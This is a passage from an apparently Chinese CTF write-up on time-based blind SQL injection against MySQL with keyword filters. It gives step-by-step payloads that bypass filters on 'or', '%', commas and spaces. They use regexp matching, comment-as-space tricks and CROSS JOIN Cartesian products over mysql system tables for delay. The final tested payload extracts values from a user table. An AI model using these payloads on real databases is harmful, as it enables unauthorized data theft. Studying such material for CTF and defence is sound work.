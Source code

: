 但是你会发现 from 1 for 1 那里，or 被过滤，for 也不能用了，所以可以用 regexp 或者 like 来单字符盲注。

于是 payload 大体是这样的（空格用 `/` **`什么都行`** `/` 代替即可）：

```
select user from users where id='1' ^ ((select `4` from (select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d union select * from user)e limit 1 offset 1) like "a%")^(1=1)
```

然而这还不是时间盲注，我们可以考虑用下面笛卡尔积这种大量运算的方法去延时：

```
select count(*) from information_schema.tables A,information_schema.tables B,information_schema.tables C
```

由于 or 被过滤，所以 information_schema 无法使用，可用 mysql 数据库中的 help_topic（这是一张更大的表）来代替：

```
?id=1'^ (select case when ((select `4` from (select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d union select * from user)e limit 1 offset 1) like "a%") then (select count(*) from mysql.help_topic A,mysql.help_topic B,mysql.help_topic C) else 0 end)%23
```

意外地发现%也被过滤掉了（出题人挖坑自己都不知道系列），所以用 regexp 来绕过。

```
1'^ (select case when ((select `4` from (select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d union select * from user)e limit 1 offset 1) regexp "^f.`{`0,`}`") then (select count(*) from mysql.help_topic A,mysql.help_topic B,mysql.help_topic C) else 0 end)^'1'='1
```

然后你会发现，笛卡尔积的方式也有逗号

于是我们发现了新的笛卡尔积方法：

```
SELECT count(*) FROM mysql.help_relation CROSS JOIN mysql.help_topic cross join mysql.proc;
```

这种笛卡尔积是不允许同一个表 cross join 自己的，但是起个别名就可以了

```
SELECT count(*) FROM mysql.help_relation CROSS JOIN mysql.help_topic A cross join mysql.proc B;
```

所以最终的 payload：

(本题的 mysql 服务似乎和本地的不太一样，mysql_help*表不管有多少都能秒出结果，无法造成延时，所以再连接一个其他的表比如 innodb_table_stats 就可以造成超长延时。。下面这个 payload 是测试过的延时时间比较合理的，3 秒左右)

```
1'^/*a*/(select/*a*/case/*a*/when/*a*/((select/*a*/`4`/*a*/from/*a*/(select/*a*/*/*a*/from/*a*/(select/*a*/1)a/*a*/join/*a*/(select/*a*/2)b/*a*/join/*a*/(select/*a*/3)c/*a*/join/*a*/(select/*a*/4)d/*a*/union/*a*/select/*a*/*/*a*/from/*a*/user)e/*a*/limit/*a*/1/*a*/offset/*a*/1)/*a*/regexp/*a*/binary/*a*/"^f.*")/*a*/then/*a*/(SELECT/*a*/count(*)/*a*/FROM/*a*/mysql.help_relation/*a*/A/*a*/CROSS/*a*/JOIN/*a*/mysql.help_topic/*a*/B/*a*/cross/*a*/join/*a*/mysql.innodb_table_stats/*a*/D/*a*/cross/*a*/join/*a*/mysql.user/*a*/E/*a*/cross/*a*/join/*a*/mysql.user/*a*/F)/*a*/else/*a*/0/*a*/end)^'1'='1
```

写脚本的一些注意事项：
